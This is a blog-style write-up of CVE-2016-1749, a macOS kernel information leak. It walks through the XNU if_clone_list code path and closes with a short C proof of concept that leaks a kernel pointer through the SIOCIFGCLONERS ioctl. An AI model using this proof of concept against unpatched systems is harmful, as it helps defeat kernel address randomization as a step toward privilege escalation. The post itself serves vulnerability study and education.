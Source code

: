 ```yaml
---
layout:    post
title:     CVE-2016-1749 macOS Kernel Information Leak
author:    wooy0ung
tags:      macos
category:  exploit
---
```



>[Analysis Environment]  
>virtual machine: OS X 10.11.3 EI Capitan  
>affected system: OS X before 10.11.3(patched in 10.11.4)  
>description: We can leak the kernel pointer by copying the 8 byte of the uninitialized kernel stack to the user space, while we can calculate the kernel slice by substraction the base adderess from leaked kernel pointer.  
<!-- more -->


## 0x001 Analysis

Let's check if_clone_list method in the "/bsd/net/if.c" file
```
/*
 * Provide list of interface cloners to userspace.
 */
static int
if_clone_list(int count, int *ret_total, user_addr_t dst)
{
  char outbuf[IFNAMSIZ];
  struct if_clone *ifc;
  int error = 0;

  *ret_total = if_cloners_count;
  if (dst == USER_ADDR_NULL) {
    /* Just asking how many there are. */
    return (0);
  }

  if (count < 0)
    return (EINVAL);

  count = (if_cloners_count < count) ? if_cloners_count : count;

  for (ifc = LIST_FIRST(&if_cloners); ifc != NULL && count != 0;
       ifc = LIST_NEXT(ifc, ifc_list), count--, dst += IFNAMSIZ) {
    strlcpy(outbuf, ifc->ifc_name, IFNAMSIZ);
    error = copyout(outbuf, dst, IFNAMSIZ);
    if (error)
      break;
  }

  return (error);
}
```

The value of IFNAMSIZ is 16.
![](/assets/img/xnu/2018-08-10-cve-2016-1749-macos-kernel-information-leak/0x001.png)

When the length of the ifc_name is less than the length of the outbuf, some bytes are not initialized at the end of the outbuf after being copied to out buf.

The first interface is called "bridge", so ifc_name is 6 characters, leaving 9 bytes of uninitialized bytes in outbuf.

Then it copies outbuf to dst which is user space as much as "IFNAMSIZ". Therefore, the kernel pointer will be copied to user space and leaked.

Look at this, we may find the method that wa originally called.
```
soo_ioctl -> soioctl -> ifioctllocked -> ifioctl -> ifioctl_ifclone -> if_clone_list
```

soo_ioctl itself is used by the socketops structure.
```
const struct fileops socketops = {
  DTYPE_SOCKET,
  soo_read,
  soo_write,
  soo_ioctl,
  soo_select,
  soo_close,
  soo_kqfilter,
  soo_drain
};
```

Since if_clone is called from within ifioctl_ifclone, cmd must be SIOCIFGCLONERS. So we can call it in this way. ioctl(sockfd,SIOCIFGCLONERS,&ifcr)
```
int
ifioctl(struct socket *so, u_long cmd, caddr_t data, struct proc *p)
{
  char ifname[IFNAMSIZ + 1];
  struct ifnet *ifp = NULL;
  struct ifstat *ifs = NULL;
  int error = 0;

  bzero(ifname, sizeof (ifname));

  /*
   * ioctls which don't require ifp, or ifreq ioctls
   */
  switch (cmd) {
  case OSIOCGIFCONF32:      /* struct ifconf32 */
  case SIOCGIFCONF32:     /* struct ifconf32 */
  case SIOCGIFCONF64:     /* struct ifconf64 */
  case OSIOCGIFCONF64:      /* struct ifconf64 */
    error = ifioctl_ifconf(cmd, data);
    goto done;

  case SIOCIFGCLONERS32:      /* struct if_clonereq32 */
  case SIOCIFGCLONERS64:      /* struct if_clonereq64 */
    error = ifioctl_ifclone(cmd, data);
    goto done;

  case SIOCGIFAGENTDATA32:    /* struct netagent_req32 */
  case SIOCGIFAGENTDATA64:    /* struct netagent_req64 */
    error = netagent_ioctl(cmd, data);
    goto done;
......
```

If you look at the ifioctl_ifclone method, you can see that it uses the if_clonereq structure as the if_clone_list argument.
```
static __attribute__((noinline)) int
ifioctl_ifclone(u_long cmd, caddr_t data)
{
  int error = 0;

  switch (cmd) {
  case SIOCIFGCLONERS32: {    /* struct if_clonereq32 */
    struct if_clonereq32 ifcr;
    bcopy(data, &ifcr, sizeof (ifcr));
    error = if_clone_list(ifcr.ifcr_count, &ifcr.ifcr_total,
        CAST_USER_ADDR_T(ifcr.ifcru_buffer));
    bcopy(&ifcr, data, sizeof (ifcr));
    break;
  }

  case SIOCIFGCLONERS64: {    /* struct if_clonereq64 */
    struct if_clonereq64 ifcr;
    bcopy(data, &ifcr, sizeof (ifcr));
    error = if_clone_list(ifcr.ifcr_count, &ifcr.ifcr_total,
        ifcr.ifcru_buffer);
    bcopy(&ifcr, data, sizeof (ifcr));
    break;
  }

  default:
    VERIFY(0);
    /* NOTREACHED */
  }

  return (error);
}
```


## 0x002 Finish it!

Finally, if you run the flowing source, you will see an information leak.
```
#include <net/if.h>
#include <stdio.h>
#include <sys/ioctl.h>

char buffer[IFNAMSIZ];

struct if_clonereq ifcr = {
        .ifcr_count = 1,
        .ifcr_buffer = buffer
};

int main(){
        int sockfd = socket(AF_INET,SOCK_STREAM,0);
        int err = ioctl(sockfd,SIOCIFGCLONERS,&ifcr);
        printf("0x%016llx\n",*(uint64_t *)(buffer + 8));
}
```
![](/assets/img/xnu/2018-08-10-cve-2016-1749-macos-kernel-information-leak/0x002.png)
